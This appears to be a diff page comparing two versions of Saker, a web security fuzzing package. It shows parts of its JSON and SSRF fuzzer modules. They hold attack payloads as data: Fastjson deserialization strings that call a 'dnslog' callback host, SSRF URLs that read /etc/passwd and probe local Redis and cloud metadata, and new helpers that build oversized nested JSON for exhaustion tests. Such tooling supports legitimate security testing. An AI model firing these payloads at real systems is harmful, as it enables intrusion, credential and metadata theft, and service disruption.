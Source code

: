  * *Files 3% similar despite different names*

```diff
@@ -40,7 +40,19 @@
         """{"rand7":Set[{"@type":"java.net.URL","val":"http://dnslog"}]}""",
         """{"rand8":Set[{"@type":"java.net.URL","val":"http://dnslog"}""",
         """{"rand9":{"@type":"java.net.URL","val":"http://dnslog"}:0""",
     ]
 
     def __init__(self):
         super(JSON, self).__init__()
+
+    def max_depth(self, depth):
+        return  '{"0":' * depth + "{}" + "}" * depth
+
+    def max_array_length(self, length):
+        return [0] * length
+
+    def max_object_count(self, length):
+        obj = {}
+        for i in range(length):
+            obj[i] = i
+        return obj
```

### Comparing `Saker-1.0.8/saker/fuzzers/ldap.py` & `Saker-1.0.9/saker/fuzzers/ldap.py`

 * *Files identical despite different names*

### Comparing `Saker-1.0.8/saker/fuzzers/mysqli.py` & `Saker-1.0.9/saker/fuzzers/mysqli.py`

 * *Files identical despite different names*

### Comparing `Saker-1.0.8/saker/fuzzers/password.py` & `Saker-1.0.9/saker/fuzzers/password.py`

 * *Files identical despite different names*

### Comparing `Saker-1.0.8/saker/fuzzers/sqli.py` & `Saker-1.0.9/saker/fuzzers/sqli.py`

 * *Files identical despite different names*

### Comparing `Saker-1.0.8/saker/fuzzers/ssrf.py` & `Saker-1.0.9/saker/fuzzers/ssrf.py`

 * *Files 1% similar despite different names*

```diff
@@ -73,14 +73,19 @@
     protopayloads = [
         "file:///etc/passwd",
         "dict://127.0.0.1:6379/info",
         "gopher://127.0.0.1",
         "ftp://user:pwd@127.0.0.1",
     ]
 
+    cloud_payloads = [
+        # k8s
+        "http://metadata-db",
+    ]
+
     def __init__(self):
         super(SSRF, self).__init__()
```